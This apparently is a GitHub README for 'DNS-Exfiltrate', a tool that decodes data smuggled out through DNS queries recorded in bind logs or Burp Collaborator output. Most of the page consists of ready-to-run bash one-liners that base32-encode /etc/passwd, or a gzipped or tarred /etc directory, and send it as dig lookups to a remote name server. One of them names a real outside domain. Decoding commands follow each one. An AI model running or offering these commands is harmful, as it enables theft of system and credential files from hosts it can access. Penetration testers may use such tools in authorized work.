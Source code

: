 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to exfiltrate data. Note that you will get more reliable results by specifying the name server via `dig @`...

It parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee`:

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes logs are encoded in `base32` (`A-Z`, `2-7`), which most efficent native (on most Linux/Unix systems) utility that is safe for DNS queries. The `=` character is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` adds any missing `=` characters back.

Hex encoding is also safe for DNS queries (but is less efficient). I may add hex support in the future. `base64` does not work due to `/` and `+`.

Thanks to Xavier Mertens for this escellent Internet Storm Center post: https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326

Use cases (bash):

## Exfiltrate a file:

```
cat /etc/passwd | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d
```

To recover the file (on a private Burp Collaborator server):

```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d
```

## Exfiltrate a compressed file:

```
cat /etc/passwd | gzip - | base32 -w 63 |tr -d = | while read a; do dig @<DNS Server> $a.<DNS Server>; done;
```

To recover/unzip the file (on a bind DNS server):

```
./dns-parse.py <DNS Name> query.log bind | base32 -d | zcat
```

To recover/unzip the file (on a private Burp Collaborator server):

  ```
./dns-parse.py <DNS Name> collaborator.log collaborator | base32 -d | zcat 
```

## Exfiltrate a compressed tar archive of a directory:

```
tar czf - /etc | base32 -w 63 |tr -d =| while read a; do dig @ns1.eej.me $a.e.ns1.eej.me; done;
```
